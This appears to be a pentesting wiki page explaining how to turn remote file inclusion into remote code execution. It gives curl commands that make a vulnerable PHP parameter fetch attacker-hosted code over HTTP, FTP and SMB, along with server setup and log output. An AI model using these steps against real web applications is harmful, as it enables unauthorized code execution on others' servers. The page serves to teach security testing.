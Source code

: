 # RFI to RCE

## Theory

Remote file inclusion (RFI) is an attack targeting vulnerabilities in web applications that dynamically reference external ressources. The goal is to exploit the referencing function in an application to upload malware (e.g., backdoor shells) from a remote URL located within a different domain.

## Practice

{% tabs %}
{% tab title="HTTP" %}
We can host an arbitrary PHP code and access it through the **HTTP** protocol

```bash
# Create phpinfo.php
echo '<?php phpinfo(); ?>' > phpinfo.php

# Start a web server
python3 -m http.server 80

# Exploit the RFI to fetch the remote phpinfo.php file
curl '$URL/?parameter=http://tester.server/phpinfo.php'
```
{% endtab %}

{% tab title="FTP" %}
The tester can also host his arbitrary PHP code and access it through the **FTP** protocol. He can use the python library **pyftpdlib** to start a FTP server.

```bash
# Start FTP server
sudo python3 -m pyftpdlib -p 21                                                                                                                                            1 ↵ alex@ubuntu
[I 2022-07-11 00:04:26] concurrency model: async
[I 2022-07-11 00:04:26] masquerade (NAT) address: None
[I 2022-07-11 00:04:26] passive ports: None
[I 2022-07-11 00:04:26] >>> starting FTP server on 0.0.0.0:21, pid=176948 <<<

# Exploit the RFI to fetch the remote phpinfo.php file
curl '$URL/?parameter=ftp://tester.server/phpinfo.php'
```

{% hint style="info" %}
PHP uses the **anonymous** credentials to authenticate to the FTP server. If the tester needs to use custom credentials, he can authenticate as follows :

<mark style="color:blue;">`curl '$URL/?parameter=ftp://user:pass@tester.server/phpinfo.php'`</mark>
{% endhint %}
{% endtab %}

{% tab title="SMB" %}
Sometimes, the vulnerable web application is hosted on a **Windows Server,** meaning the attacker could log into a **SMB Server** to store the arbitrary PHP code.

[Impacket](https://github.com/SecureAuthCorp/impacket)'s [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) (Python) script can be used on the attacker-controlled machine to create a SMB Server.

```
sudo python3 smbserver.py -smb2support share $(pwd)                                                                                        130 ↵ alex@ubuntu
Impacket v0.10.1.dev1 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

The PHP script can then be included by using a [UNC](https://en.wikipedia.org/wiki/Universal\_Naming\_Convention) Path.

```bash
curl '$URL/?parameter=\\tester.server\phpinfo.php'
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://www.thehacker.recipes/web/inputs/file-inclusion/rfi-to-rce" %}
